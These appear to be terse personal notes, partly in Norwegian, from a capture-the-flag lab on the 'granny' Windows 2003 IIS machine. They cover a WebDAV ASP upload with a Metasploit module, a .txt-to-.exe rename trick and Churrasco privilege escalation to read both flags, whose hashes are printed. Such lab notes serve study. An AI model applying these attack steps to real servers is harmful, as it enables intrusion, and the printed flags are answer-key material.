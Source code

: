 ## granny 10.10.10.15

Microsoft Windows 2003\|XP\|2008 \(91%\)

kun port 80

webdav her og?

fikk lastet opp asp fil.

~~netstat -anpt -v -n 10.10.12.238 4444~~

`use exploit/windows/iis/iis_webdav_upload_asp`

Windows .NET Server \(Build 3790, Service Pack 2\).

Architecture    : x86

whoami

nt authority\network service

username **lakis**

**server 2003 sp2 x86**

limited user called “Network Service”. This user has Read and Execute, but no Write access, and a very limited field of view to boot.

Administrator            ASPNET                   Guest

IUSR\_GRANPA              IWAM\_GRANPA              Lakis

SUPPORT\_388945a0

ingen vmic

icalcs ingen write permissions på network service

cadaver 10.10.10.15

put som .txt og move til .exe

last opp [https://github.com/Re4son/Churrasco](https://github.com/Re4son/Churrasco)

c.exe -d cmd

type "c:\documents and settings\administrator\desktop\root.txt"

**aa4beed1c0584445ab463a6747bd06e9**

type "c:\documents and settings\lakis\desktop\user.txt"

**700c5dc163014e22b3e408f8703f67d1**



